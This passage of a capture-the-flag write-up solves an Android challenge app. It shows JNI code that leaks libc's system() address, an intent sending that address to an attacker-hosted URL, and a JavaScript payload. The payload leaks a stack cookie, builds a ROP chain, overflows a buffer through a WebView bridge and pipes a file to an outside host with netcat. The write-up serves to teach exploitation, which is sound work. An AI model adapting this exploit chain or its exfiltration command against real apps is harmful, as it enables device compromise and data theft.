 {% highlight c++ %}
JNICALL Java_ctf_zetatwo_com_challenge5exploit2_MainActivity_getSystemAddr( JNIEnv *env, jobject /* this */) {
    return reinterpret_cast<long long int>(system);
}
{% endhighlight %}

which we then use in the Java part to trigger out exploit like this:

{% highlight java %}
private void doExploit() {
    Intent launchIntent = getPackageManager().getLaunchIntentForPackage("com.hackerone.mobile.challenge5");
    launchIntent.putExtra("url", "http://1bcf5167.ngrok.io/?sys_addr=" + Long.toString(getSystemAddr()));
    startActivity(launchIntent);
}

public native long getSystemAddr();
{% endhighlight %}

This sends the app to a URL with a PHP script which outputs the javascript with the provided adress to system as part of the script. The final attack script then looks like this. I have left out some utility functions for brevity.

{% highlight javascript %}
//1. Get address of global buffer
data_addr = PetHandler.getMySomething();
data_addr_val = parseInt(data_addr, 10);
data_addr_packed = pack(data_addr_val);

//2. Get system address from input and calculate gadget location
system_addr = <?php echo $_GET['sys_addr']; ?>;
system_offset = 0x07D360;
gadget_offset = 0x07D743;
base_addr = system_addr - system_offset;
gadget_addr = base_addr + gadget_offset;

//3. Create argument to system()
command = "cat /data/local/tmp/challenge5|nc zeta-two.com 5000";
command = btoa(command)

//4. Leak stack cookie
leak1 = JSON.parse(PetHandler.censorMyDogs(512 + 512 + 8 + 32 + 8, command));
cookie = leak1.slice(512 + 512, 512 + 512 + 8);

//5. Put together payload
payload = []
payload = payload.concat(pad(512, 0x41));
payload = payload.concat(pad(8, 0x42)); //pad
payload = payload.concat(cookie);
payload = payload.concat(data_addr_packed); //rbx
payload = payload.concat(pad(8, 0x44)); //r14
payload = payload.concat(pack(system_addr)); //r15
payload = payload.concat(pack(gadget_addr)); //ret

//6. Trigger buffer overflow
PetHandler.censorMyCats(JSON.stringify(payload));
{% endhighlight %}
